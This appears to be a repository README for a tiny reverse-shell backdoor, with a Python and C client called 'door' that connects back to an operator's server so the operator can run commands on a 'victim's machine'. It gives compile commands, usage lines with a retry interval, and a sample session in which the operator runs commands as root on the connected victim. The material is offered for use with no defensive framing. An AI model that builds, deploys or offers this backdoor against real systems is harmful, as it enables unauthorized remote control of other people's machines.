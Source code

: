 > A Tiny REVERSE CONSOLE that allows you excute command on victim's machine.
>
> Python version Support both Python 2 & 3, no thirdpart dependencies.
> There is also a C version client side program Support Linux & Windows.
> WARN: (Server <=> Client communications not encrypted)

### Compile C version `door.c`
```
# Windows CL
$> cl door.c /O1 /D WIN32 /Fe door /link /subsystem:console
# Windows or Linux gcc
$> gcc -Wall -O1 door.c -o door
```

### How To Use?
```
$> ./server.py bind_address:bind_port
$> ./door.py server_ip:server_port[:retry_interval]

# Server Example
$> ./server.py 127.0.0.1:4433

# Client Example (C version has the same usage)
$> ./door.py 127.0.0.1:4433 # default retry interval 60 seconds
$> ./door.py 127.0.0.1:4433:60
```

## Example
#### Your Machine
```
root@server 07:47 /home # ./server 0.0.0.0:2345
listen on 0.0.0.0:2345, waiting for connection.
connection from *.*.*.*:49006
$> whoami
root

$> ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 11 07:31 .
drwxr-xr-x 22 root root 4096 Jan 30 09:55 ..
-rwxr-xr-x  1 root root  532 Feb 11 07:31 door
drwxr-xr-x  5 git  git  4096 Jan  3 08:41 jack

$>
```

#### Victim's Machine
```
root@boy 07:47 /home # ./door *.*.*.*:2345
```
End.
